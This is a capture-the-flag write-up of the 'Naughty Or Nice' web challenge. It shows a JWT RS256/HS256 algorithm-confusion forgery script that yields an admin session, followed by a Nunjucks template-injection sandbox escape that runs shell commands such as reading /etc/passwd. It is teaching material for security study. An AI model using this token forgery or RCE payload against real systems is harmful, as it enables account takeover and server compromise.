Naughty Or Nice Web Challenge
TL;DR:
Getting the flag on this challenge requires two separate steps. First, we must obtain access to the admin account by
exploiting a flaw in the JWT verification process. Once inside the admin account, we are able
to edit the "Naughty and Nice" list displayed on homepage. We can leverage a Server Side Template Injection (SSTI) vulnerability
to obtain remote code execution and read the flag.
Recon:
Navigating to the site, we are greeted with a "Naughty Or Nice" list and the option to navigate to a sign-in page.

The sign-in page allows us to register for an account and use our credentials to login. Once logged in,
we are redirected to the /dashboard endpoint. This endpoint displays a message saying that we "shall not pass".

A quick glance at the code in /challenge/routes/index.js shows the following for a the /dashboard endpoint:
router.get("/dashboard", AuthMiddleware, async (req, res) => {
return db
.getUser(req.data.username)
.then((user) => {
if (user.username == "admin") return res.render("admin.html");
res.render("dashboard.html", { user });
})
.catch(() => res.status(500).send(response("Something went wrong!")));
});
This shows that if we are the admin user, then we will get routed to the Admin dashboard. Otherwise we recieve unauthorized page shown above.
Getting Admin:
A Quick Rabbit Hole - SQL Injection
Initially I thought that we were to attack the admin authentication process. Looking at the code, we can see that login requests
are initially routed to a database handler, as shown below with the call to db.loginUser(username, password).
router.post("/api/login", async (req, res) => {
const { username, password } = req.body;
if (username && password) {
return db
.loginUser(username, password)
.then((user) => {
JWTHelper.sign({ username: user.username }).then((token) => {
res.cookie("session", token, { maxAge: 43200000 });
res.send(response("User authenticated successfully!"));
});
})
.catch(() =>
res.status(403).send(response("Invalid username or password!"))
);
}
return res.status(500).send(response("Missing parameters!"));
});
admin account.
However, looking at the loginUser function in database.js, we see the following:
async loginUser(user, pass) {
return new Promise(async (resolve, reject) => {
try {
let stmt = await this.db.prepare(
"SELECT username FROM users WHERE username = ? and password = ?"
);
console.log(stmt);
resolve(await stmt.get(user, pass));
} catch (e) {
reject(e);
}
});
}
? placeholders, and thus is safe from SQL injection. For more information about safe practices when using Node and SQL,
checkout out this post from Veracode.
Once logged in, we get a JWT token.

Using jwt.io we can see in the decoded JWT that it is using RS256 and the data section contains our username and a public key.

Back in the code base, we find JWTHelper.js in the /challenge/helpers/ directory. It contains the code to both create and verify the JWT tokens the web-app uses.
const jwt = require('jsonwebtoken');
const NodeRSA = require('node-rsa');
const keyPair = new NodeRSA({b: 512}).generateKeyPair();
const publicKey = keyPair.exportKey('public')
const privateKey = keyPair.exportKey('private')
module.exports = {
async sign(data) {
data = Object.assign(data, {pk:publicKey});
return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
},
async verify(token) {
return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
}
JWT Signing:
Lets break down the sign function first. It gets passed a data parameter which, looking back at the /routes/index.js, we see in the handler for a POST
request to the /login endpoint has the following format:
JWTHelper.sign({ username: user.username })
On the first line of the function, we see the public key is added to the data object. Next, the sign function from the jsonwebtoken package called.
Referring to the documentation, this has a function signature of jwt.sign(payload, secretOrPrivateKey, [options, callback]), and we are therefore
returning a JWT token that has our username and public key as the data,
signed by a private key known only to the server, using the RS256 algorithm. Seems fairly secure.
JWT Verify:
Next lets take a look at verify. Here we are given a token as the parameter and return the result of the verify function from the jsonwebtoken package. Again referencing
the documentation, we see that jsonwebtoken's verify function has the following function signature: jwt.verify(token, secretOrPublicKey, [options, callback]).
This lines up with what we would expect, as we see this function being passed our JWT token and the server's public key. However, in our code base, we see the options parameter can verify a token that
uses either RS256 or HS256.
return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
RS256 vs HS256
RS256 uses asymmetric encryption. This means that a public key is used for encryption, and a private key is used for decryption. HS256, on the other hand, uses
symmetric encryption. This means the same key is used for both encryption and decryption.
Creating an Admin JWT:
Based on what we observed above, we now have all the information we need to create a verified admin JWT token. The public token is known to us, as it is provided within the data section of the JWT. Within the jwt.verify
function, the public key is supplied as the secretOrPublicKey parameter. When the JWT header specifies that the algorithm is RS256, jwt.verify interprets the secretOrPublicKey parameter as a public key.
However, if the JWT specifies the algorithm HS256 in the header, then the jwt.verify function interprets the secretOrPublicKey as a secret! Thus if a token using HS256 and signed by our public key was passed to the verify function,
it would pass!
This verify function is called in AuthMiddleware like so:
return JWTHelper.verify(req.cookies.session)
.then(username => {
req.data = username;
next();
})
.catch((e) => {
console.log(e);
res.redirect('/logout');
});
So we can see, once the JWT is verified, the logged in user is determined by the username field in the data section of the JWT.
Therefore, we can use the following script to create an admin JWT:
const jwt = require("jsonwebtoken");
publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtCKM9IX5ZlUs8hWTEa75\neu6mU09aoHm5jd36mDjaopQ8alaWcHykhVXXsd9Dfp+m86cV4zIbmH4FnZGw2wQT\nPEv824kR4amWL9X2/7TCu6jgM0SQuA+E7KJvMJTf8ycLqdwx3TQFQVAE35zzlvAw\n+MdONz1uQWXh2f6tz6oT+eD/CLd5rJRjxVyraykECcYBDAjOtOjU5NcnTiwU1t2z\nJ6kOkPlG6t7f5zJ8QnHFByIRDKqsRjCo/2cIdLToBaINt85lZy0j5EyWRM+Sfk6b\nNG+CCmR7v1dE2dUIJ5IeXqQ/KSyOxSV0RNbtp9f5pwilaOG+gFeAPAxW0B3PS/cQ\neQIDAQAB\n-----END PUBLIC KEY-----"
data = {'username': 'admin'}
data = Object.assign(data, {pk:publicKey});
key = jwt.sign(data, publicKey, { algorithm:'HS256' })
console.log(key)

If we decode our new JWT, we now see the following: 
Go back to the web-app, and set our cookie to the new JWT.

Refresh, and we are in the admin dashboard!

Getting The Flag
Now we are in the admin dashboard, but we need full code execution in order to obtain the flag. From the dashboard, we have the ability to edit the
"Naughty or Nice" list displayed on the landing page. The card on the landing page that displays the list has a helper, CardHelpers.js in the /challenge/helpers/ directory.
const nunjucks = require('nunjucks');
module.exports = {
async generateCard(elfList) {
return new Promise(async (resolve, reject) => {
try {
let NaughtyNames = NiceNames = '<br>';
for(elfData of elfList) {
if (elfData.type == 'naughty') {
NaughtyNames = `${NaughtyNames}\n${elfData.elf_name}<br>`;
}
else if (elfData.type == 'nice') {
NiceNames = `${NiceNames}\n${elfData.elf_name}<br>`;
}
}
card = `
{% extends "card.html" %}
{% block card %}
<div class="card">
<div class="card-page cart-page-front">
<div class="card-page cart-page-outside"></div>
<div class="card-page cart-page-inside">
<p><span class='nheader green'>Nice List</span>
${NiceNames}
</p>
</div>
</div>
<div class="card-page cart-page-bottom">
<p><span class='nheader red'>Naughty List</span>
${NaughtyNames}
</p>
</div>
</div>
{% endblock %}
`;
resolve(nunjucks.renderString(card));
} catch(e) {
reject(e);
}
})
}
};
Nunjucks SSTI and Sandbox Escape:
Here, we see the code base is leveraging Nunjucks to help render the card. Nunjucks is a templating engine specifically for JavaScript, which immediately makes me think this might be some sort of template injection vulnerability. We can do a quick test to confirm.
First, we edit one of the items to contain {{7*7}}.

Navigating back to the homepage, we see that the our {{7*7}} payload renders as 49, confirming that we have found a Server Side Template Injection!

If we continue to poke around on Google, we find some research has already been done on SSTI within Nunjucks. Nunjucks template code runs in a sandbox, so in order to get RCE we need to break out of that sandbox and access the underlying OS. If you are interested in how this sandbox escape works, checkout the pre-existing research that I used as a reference during this challenge - SANDBOX BREAKOUT - A VIEW OF THE NUNJUCKS TEMPLATE ENGINE. From that article, we see the researchers obtained RCE with the following command:
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
Modifying this payload, we can obtain the flag!
Final Payload:
First, we run
{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls /')")()}}

We see the flag here, and we can change the payload to cat it out!
 


